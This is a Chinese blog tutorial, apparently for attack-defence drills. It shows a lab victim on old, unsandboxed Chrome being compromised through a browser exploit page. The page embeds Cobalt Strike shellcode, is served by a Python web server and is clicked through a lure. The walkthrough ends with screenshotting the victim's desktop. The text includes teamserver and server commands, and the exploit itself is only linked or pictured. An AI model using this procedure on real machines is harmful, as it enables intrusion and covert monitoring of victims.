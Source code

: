 
--- 
title:  [ 攻防演练演示篇 ] 利用谷歌 0day 漏洞上线靶机 
tags: []
categories: [] 

---
>  
 <h2>🍬 博主介绍</h2> 
 👨‍🎓 博主介绍：大家好，我是  ，很高兴认识大家~ ✨主攻领域：【渗透领域】【数据通信】 【通讯安全】 【web安全】【面试分析】 🎉点赞➕评论➕收藏 == 养成习惯（一键三连）😋 🎉欢迎关注💗一起学习👍一起讨论⭐️一起进步📝文末有彩蛋 🙏作者水平有限，欢迎各位大佬指点，相互学习进步！ 




#### 文章目录
- - - - <ul><li>- - - <ul><li>- - - - - - - 


## 一、前言

>  
 本次使用于搭建一个演示环境，用于演示，这里我利用了一个Google的0ady 需要注意的是： 


```
1.靶机环境win10、win7均可，sever不行
2.chrome客户端需64位（Google Chrome &lt; = 89.0.4389.128）
3.浏览器需要关闭沙箱模式--no-sandbox
4.攻击机需要有java和python环境
5.攻击机我这里利用的Cobaltsrike，当然想使用msf，大灰狼等等工具都是可以的

```

## 二、演示环境搭建

### 1、靶机安装低版本谷歌

>  
 低版本谷歌下载链接在文末给出 创建快捷方式到桌面，右键编辑快捷方式，在目标后面添加-no-sandbox参数 增加 -no-sandbox 参数的目的是关闭沙箱 


<img src="https://img-blog.csdnimg.cn/471f423d60b7458ab38e53c546a5d83a.png" alt="在这里插入图片描述">

### 2、攻击机安装CS神器

>  
 Cobaltsrike CS神器下载链接： 


```
https://download.csdn.net/download/qq_51577576/87379235

```

>  
 资源有可能会被下架，如果被下架了，自行下载 


## 三、红方操作

### 1、POC制作

#### 1.启动CS服务端

>  
 启动CS，以管理员身份进入teamserver.bat所在目录 打开运行框，启动cs 


```
./teamserver.bat 10.10.12.143 123456

```

<img src="https://img-blog.csdnimg.cn/37168129b3d3441995ad6debe47f6d92.png" alt="在这里插入图片描述">

#### 2.打开CS客户端

>  
 打开cs客户端 cobaltsrike 


<img src="https://img-blog.csdnimg.cn/9bc819fd69964c77a7f6acf47d7ec117.png" alt="在这里插入图片描述">

#### 3.客户端连接CS服务端

>  
 输入ip、端口和密码等信息 


<img src="https://img-blog.csdnimg.cn/98452d9eb2f0449bbc3e50ef0af8522d.png" alt="在这里插入图片描述">

#### 4.添加监听器

>  
 添加监听器 


<img src="https://img-blog.csdnimg.cn/04ea539414e54f6e8232df7082964a76.png" alt="在这里插入图片描述">

#### 5.生成payload

>  
 生成后门 攻击–&gt;生成后门–&gt;payload Generator 


<img src="https://img-blog.csdnimg.cn/1e373d1a71b64354a51133cc79f12533.png" alt="在这里插入图片描述">

>  
 选择我们前面创建的监听器，使用X64payload，点击Generate 


<img src="https://img-blog.csdnimg.cn/6cc7344c027841cb8ef2063b87fb32cf.png" alt="在这里插入图片描述">

>  
 选择生成路径，随便放哪里都行，我就放在了桌面，桌面就会多一个payload.c文件这个就是CS生成的后门文件 


#### 6.制作POC

>  
 1、打开payload.c文件，并将payload.c中的”\”全部替换为“,0”，如下 


<img src="https://img-blog.csdnimg.cn/af7c56f3ba4749b9b7138862efcfaf50.png" alt="在这里插入图片描述">

>  
 2、替换完成之后我们赋值所有的十六进制编码，并替换到POC.txt的shellcode参数中，如下就是替换完成的 POC.txt下载链接再文末给出 


<img src="https://img-blog.csdnimg.cn/c9f2b7f2fb1341819f83aa714b9e8754.png" alt="在这里插入图片描述">

>  
 3、将txt后缀改为html 


<img src="https://img-blog.csdnimg.cn/da997326baa34704a183244199c36e3c.png" alt="在这里插入图片描述">

### 2、准备恶意网页

>  
 进入POC.html目录启一个python服务，目的是把我们制作的POC.html公开，让靶机能够访问得到 启动网页命令 


```
python -m http.server 8080

```

<img src="https://img-blog.csdnimg.cn/06157dcdce464c53a2beef4d032de061.png" alt="在这里插入图片描述">

## 四、蓝方操作

>  
 访问（红方人员诱导蓝方人员点击） 


```
http://攻击机IP:8080/POC.html

```

<img src="https://img-blog.csdnimg.cn/581964be53d5446186957770d3ff8d2d.png" alt="在这里插入图片描述">

## 五、红方操作

### 1、蓝方人员上线

>  
 发现蓝方人员成功上线，我们截它桌面的图 


<img src="https://img-blog.csdnimg.cn/143b9bf1cda14267a7bb04dfab2a8d8b.png" alt="在这里插入图片描述">

### 2、截蓝方机器桌面的图

>  
 1、使用cs工具操作桌面截图 右键上线机器 --&gt; Explore --&gt; Screenshots 


<img src="https://img-blog.csdnimg.cn/9846b605906d49dbaac07f5c05777cb6.png" alt="在这里插入图片描述">

>  
 2、成功截取到图片 执行完上面那一步我们已经截到图了，我们打开工具栏的图片图标，查看截取到的图片 


<img src="https://img-blog.csdnimg.cn/66e590b543704bc1a03be2b72a90276c.png" alt="在这里插入图片描述">

## 六、相关资源

    
